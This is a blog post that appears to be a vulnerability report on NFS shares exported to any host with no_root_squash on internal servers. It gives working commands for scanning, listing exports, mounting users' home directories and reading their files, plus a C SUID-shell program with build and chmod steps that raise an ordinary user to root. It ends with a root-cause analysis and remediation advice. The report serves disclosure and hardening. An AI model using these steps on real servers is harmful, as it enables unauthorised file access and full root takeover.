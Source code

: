 ```yaml
---
layout:     post
title:      Report on Unauthenticated NFS Access Vulnerability in Certain Servers
subtitle:   Cybersecurity
date:       2024-11-29
author:     UPOJZSB
header-img: img/post-bg-random.jpg
catalog: true
tags:
    - NFS
    - Linux
    - Cybersecurity
---
```


# Background

NFS (Network File System) is commonly used for sharing file systems across clusters or multiple servers. However, due to misconfiguration or oversight, some servers have NFS services running without proper IP-based access restrictions. As a resule, within the `10.0.0.0/8` subnet, hosts other than the intended targets (e.g., internal clusters or servers) can access the NFS file systems without authorization. This poses a significant risk of file leakage and other security threats. 

# Attack Chain

## Host Scan

By default, NFS services use TCP port `2049`. An attacker can utilize tools like nmap to scan hosts in the subnet and identify machines offering NFS services.

### Example Scan
```bash
nmap -p 2049 ipaddr
```

### Sample Output
```bash
Nmap scan report for ipaddr
Host is up (0.0055s latency).

PORT    STATE   SERVICE
2049/tcp    open    nfs
```

## Shared Directory Query

Next, the attacker can use `showmount` to query shared NFS directories:

### Input

```bash
showmount -e ipaddr
```

### Output

```bash
Export list for ipaddr:
/opt    *
/home   *
```

## Mount the NFS File System to Localhost

Although SSH access is protected by key-based authentication:

### Input

```bash
ssh usernam@ipaddr
```


### Output

```bash
username@ipaddr: Permission denied (publickey, gssapi-keyex, gssapi-with-mic)
```

The attacker can still mount the `/home/ directory via NFS and access its contents:

```bash
mount -t nfs ipaddr:/home/ /mnt
cd /mnt
ls -lah
# (total output omitted)
cd some_directory
cat .bashrc
# (contents omitted)
```

This confirms that the NFS service lacks proper access controls.

## Privilege Escalation

If the attacker has any user-level access on the server, they can escalate privileges to **root** by leveraging the mounted NFS and creating a SUID binary.

### Example: `suid_shell.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(void)
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

### Compilation and SUID Setup

```bash
gcc suid_shell.c -o suid_shell -static -static-libgcc -static-libstdc++
chmod +s ./suid_shell
```

### Execution by a Normal User

```bash
id
# uid=1012(username) gid=1012(username) groups=1012(username),1014(group)
./suid_shell
id
# uid=0(root) gid=1012(username) groups=1012(username),1014(group)
```

This results in full root access.


# Root Cause Analysis

The NFS access control settings are defined in `/etc/exports`. The configuration on the affected server was:

```bash
cat /etc/exports

/home   *(rw, insecure, no_root_squash, sync)
/opt    *(rw, insecure, no_root_squash, sync)
```

This configuration allows any host (`*`) to access the shared directories, with no effective access restriction.

# Recommendations

To address this vulnerability:

* Modify teh `/etc/exports` file to **restrict access** to specific IP addresses or subnets.
* Set appropriate permissions according to operational needs.
* Review and monitor access to ensure unauthorized hosts cannot mount the NFS shares.

These measures will reduce the risk of unauthorized access and improve overall system security.